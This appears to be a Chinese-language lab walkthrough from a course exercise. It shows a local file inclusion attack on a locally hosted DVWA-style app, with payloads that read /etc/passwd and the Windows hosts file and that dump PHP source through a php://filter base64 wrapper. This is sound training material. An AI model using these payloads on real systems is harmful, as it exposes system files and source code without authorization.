 
`cd FCU_TA_107_Stu/web/include_php/`
`sudo docker-compose up -d`
![](https://i.imgur.com/LQ1J35w.png)

---

http://127.0.0.1:10002/

---


總共有 3 個連結，隨便點個進去瞧瞧
![](https://i.imgur.com/UaF2RTB.jpg)

---

發現網址改變了
![](https://i.imgur.com/Z60F9h1.jpg)

---

試著改改看網址，發現可以進入別的地方
http://localhost/DVWA-master/vulnerabilities/fi/?page=file4.php
![](https://i.imgur.com/piGXM4I.jpg)

---

試試看直接查看主機文件
```
page=c:/Windows/System32/drivers/etc/hosts
page=/etc/passwd
```
![](https://i.imgur.com/E34xp2F.jpg)


---

我們再試著進入其他的東西
```
page=php://filter/convert.base64-encode/resource=index.php
```
![](https://i.imgur.com/YA0claw.jpg)

---

那一串是用 base64 編碼過後的樣子
我們解碼一下就可以看到原始碼
![](https://i.imgur.com/IJ86a33.jpg)

---


![](https://i.imgur.com/VDbsi8H.jpg)
